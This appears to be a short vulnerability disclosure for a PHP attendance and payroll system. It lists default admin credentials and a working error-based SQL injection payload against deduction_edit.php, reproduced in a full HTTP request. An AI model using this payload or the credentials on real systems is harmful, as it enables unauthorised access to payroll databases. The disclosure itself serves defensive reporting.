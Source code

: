 Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\deduction_edit.php has SQL injection

Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&description=PhilHealth&amount=150&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159259387-40e8bf5e-7297-4222-96da-299244646354.png)

```sql
POST /apsystem/admin/deduction_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/deduction.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&description=PhilHealth&amount=150&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159261257-56e82ae3-8ff1-4305-8b9a-b283201b50ef.png)

![image](https://user-images.githubusercontent.com/54017627/159261164-dd50b65b-48fb-467b-a2c5-bf4ec5d0e75b.png)

